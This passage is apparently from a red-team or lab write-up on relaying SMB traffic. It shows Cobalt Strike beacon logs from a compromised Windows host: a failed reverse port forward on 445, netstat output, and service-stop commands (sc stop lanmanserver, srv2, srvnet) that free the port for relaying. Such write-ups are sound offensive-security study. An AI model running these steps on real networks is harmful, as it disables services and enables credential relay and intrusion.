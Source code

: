 ## SMB Unbinding

We can perform the above relay by doing a reverse port forward on `TABULARIUM` to our machine on `TCP/445 (SMB)`, however we will soon find an access denied.

```
[05/26 02:13:23] beacon> rportfwd 445 0.0.0.0 445
[05/26 02:13:23] [+] started reverse port forward on 445 to 0.0.0.0:445
[05/26 02:13:23] [*] Tasked beacon to forward port 445 to 0.0.0.0:445
[05/26 02:13:23] [+] host called home, sent: 10 bytes
[05/26 02:13:23] [-] Could not bind to 445
```

This is occuring because `TABULARIUM` is a domain-joined Windows machine, and the `SYSTEM` process is currently using it for the `SMB` service.

> PID 4 is the `System` process, which is responsible for managing system-level services and processes.

```
[05/26 02:13:44] beacon> run netstat -ano
[05/26 02:13:44] [*] Tasked beacon to run: netstat -ano
[05/26 02:13:45] [+] host called home, sent: 30 bytes
[05/26 02:13:45] [+] received output:

Active Connections
    Proto  Local Address          Foreign Address        State           PID
    TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       1000
    TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
    TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       7624
    TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1100
    TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
    TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4
```

In the past, the go-to method for "unbinding" SMB is using [PortBender](https://github.com/praetorian-inc/PortBender) to forcefully redirect traffic on `TCP/445` using `WinDivert64.sys`. However, from my testing this seems to no longer be functional and/or maintained.

Luckily, there's an alternative method to release the SMB service from port 445: just force-stop the user-space services that provide SMB functionality. Running the following commands in this order will release the port, this is a neat trick that was first released by [SpecterOps](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac).

```
sc stop lanmanserver
sc stop srv2
sc stop srvnet
```

```
[05/26 02:23:21] beacon> run sc stop lanmanserver
[05/26 02:23:21] [*] Tasked beacon to run: sc stop lanmanserver
[05/26 02:23:21] [+] host called home, sent: 38 bytes
[05/26 02:23:21] [+] received output:

SERVICE_NAME: lanmanserver 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x4e20

[05/26 02:23:52] beacon> run sc stop srv2
[05/26 02:23:52] [*] Tasked beacon to run: sc stop srv2
[05/26 02:23:53] [+] host called home, sent: 30 bytes
```